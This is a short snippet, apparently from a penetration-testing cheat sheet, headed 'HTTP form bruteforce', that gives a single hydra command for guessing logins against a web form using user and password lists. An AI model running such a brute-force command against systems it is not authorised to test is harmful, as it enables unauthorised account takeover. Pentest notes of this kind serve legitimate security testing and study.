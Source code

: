 # HTTP form bruteforce


```sh
hydra <ip> http-form-post "/index.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txt -t 10 -w 30 -o hydra-http-post-attack.txt
```